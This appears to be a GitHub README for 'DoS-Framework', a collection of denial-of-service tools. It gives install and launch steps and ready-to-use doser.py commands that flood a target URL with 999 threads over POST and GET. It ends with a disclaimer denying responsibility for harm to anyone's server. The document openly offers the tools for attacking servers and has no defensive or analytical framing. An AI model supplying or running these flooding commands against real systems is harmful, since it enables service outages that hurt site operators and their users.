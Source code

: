 # DoS-Framework
Collection of DoS Tools

First of all,

<code>git clone https://github.com/FakeFBI/DoS-Framework.git</code>

To run it, you should install "Term::ANSIScreen" perl module and "requests" Python 2 module. You can install them by executing the scripts in "installation-scripts" directory. (e.g. for Fedora GNU/Linux: <code>./fedora-install.sh</code>). Then execute with <code>perl execme.pl</code> or <code>./execme.pl</code>

To use all features you should install Go, Python3, Python2, Perl, and Bash (most distributions are O.K.).

You shouldn't change the name of ".pl" file. If it does, you should change "exec "perl WHATEVER.pl";" commands in ".pl" file.

You can open issue for adding more tools or fork it.

Last warning: Doser.py tool is buggy in POST method, so you can give it a chance by trying manually:
For POST:

<code>python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'</code>

For GET:

<code>python doser.py -t 999 -g 'https://targeted.site.com'</code>

Critical note: I am not responsible if you harm someone's server or get into trouble.

I hope this tool will become inspiring and useful for you.

Final situation: Everything is updated.
